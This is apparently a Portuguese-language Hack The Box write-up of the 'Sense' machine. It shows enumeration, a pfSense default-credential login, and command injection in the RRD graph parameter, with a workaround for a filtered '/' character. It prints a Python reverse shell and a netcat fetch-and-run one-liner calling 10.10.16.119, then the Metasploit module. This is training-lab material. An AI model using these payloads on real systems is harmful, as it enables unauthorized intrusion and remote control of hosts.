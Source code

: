 ```yaml
---
title: "Hack The Box - Sense"
tags: [FreeBSD,Easy,PfSense,Metasploit Framework,BurpSuite,Wfuzz]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_inicial.png)

Link: <https://www.hackthebox.eu/home/machines/profile/111>

# Enumeração

## Primeiro passo é rodar o nmap contra a máquina, para verificar quais portas estão abertas e quais serviços estão sendo disponibilizados pelas portas.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_nmap.png)

### Explicação de cada parâmetro do Nmap

> -sC --> Rodar alguns scripts padrão em cada porta

> -sV --> Levantar qual serviço está rodando na porta

> -Pn --> Já considera o host ativo

### Verificamos que temos apenas duas portas abertas

> Portas 80 e 443 -> Servidor Web

## Enumeração da porta 80 e 443

Abrindo a página verificamos o que tem nela (Porta 80 e 443 mesma coisa)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_web.png)

Verificamos que é um `PfSense` rodando nessa porta

## Rodamos o wfuzz

Com o intuito de verificar se há diretórios os arquivos que não estão disponíveis, aqui neste caso iremos procurar por arquivos .TXT

Possivelmente arquivos de configuraçãou algo assim

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_wfuzz.png)

Explicação Wfuzz:
> -c --> Exibir com cores

> -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --> indicamos que o método será dicionário e o arquivo especificado

> --hc 404 --> Não vai exibir os arquivos que deram erro 404.

> -t 350 --> Quantidade de threads (pra ir mais rápido)

Abrimos o *changelog.txt*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_wfuzz1.png)

Abrimos o *system-users.txt*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_wfuzz2.png)

Encontramos um nome de usuário e especificando que a senha é a default da companhia

```
username: Rohit
password: company defaults
```

# Explorando o PfSense

Tentamos logar com as credenciais padrão do PfSense

rohit:pfsense

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_pf.png)

Conseguimos logar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_pf1.png)

Encontramos a versão do pfsense e do sistema operacional também!

> 2.1.3-RELEASE (amd64). Built on Thu May 01 15:52:13 EDT 2014. FreeBSD 8.3-RELEASE-p16

## Procurando por exploits

Utilizamos o searchsploit para procurar por exploits para essa aplicação

Não encontramos exatamente a versão que está rodando, mas encontramos um que é uma versão acima, ou seja, deve funcionar pra esse

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_searchsploit.png)

### Exploração manual

Certo, encontramos o exploit, é um script em python, deve funcionar com certeza, mas antes vamos explorar ele manualmente pra procurar entender o que está acontecendo, não apenas rodar um script e pronto

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_exp.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_exp1.png)

Encontramos esse blog onde explica como funciona a exploração dessa vulnerabilidade

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_exp2.png)

> https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_exp3.png)

#### Iniciando exploração manual

Abrimos o Graph em Status - RRD Graph

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man.png)

Clicamos para visualizar uma das imagens (Botão direito - View Image)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man1.png)

Identificamos o parâmetro vulnerável na aplicação, que como citado na explicação é o database (atualizamos a página com o BurpSuite aberto)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man2.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man3.png)

Mandamos para o Repeater do BurpSuite

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man4.png)

Deixamos apenas o parâmetro database. Deixamos como queues porque é como ele comenta no exploit

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man5.png)

Testamos pra ver se temos RCE, vou dar apenas um ls, por que minimiza ao máximo a chance de ter bad chars

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man6.png)

Temos RCE!

Agora vamos trabalhar com conseguir um reverse shell

Testamos por bad chars e encontramos o /

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man7.png)

Aqui a requisição vai mas não retorna nada, ou seja, o / é um bad char

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man8.png)

Com o / sendo bad char fica complicado, por que praticamente todos os reverse shell tem /, temos que dar um jeito de driblar esse bad char

Verificamos as variáveis de ambiente da máquina, pq se tiver alguma que tenha / podemos utilizar ela

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man9.png)

*HOME=/* Testamos e vemos que deu certo utilizar ela ao invés de / direto

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man10.png)

Essa parte foi apenas para explicar como fazemos pra dribar badchars com o burp, pra pegar um reverse não precisamos disso tudo

##### Pegando um reverse shell

Aqui iremos utilizar um reverse shell em python

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.119",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Ele vai dar um nc na minha máquina na porta 1337, onde estará sendo disponibilizado o arquivo shell com o esse reverse shell, após isso ele vai executar em python, e na minha máquina vai ter um nc escutando na porta 443

> nc 10.10.16.119 1337|python&

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man11.png)

Temos usuário root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_man12.png)

##### Pegamos flag de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_user.png)

### Explorando através do Metasploit Framework

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_msf.png)

> use exploit/unix/http/pfsense_graph_injection_exec

Configuramos ele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_msf1.png)

Executamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sense/S_msf2.png)
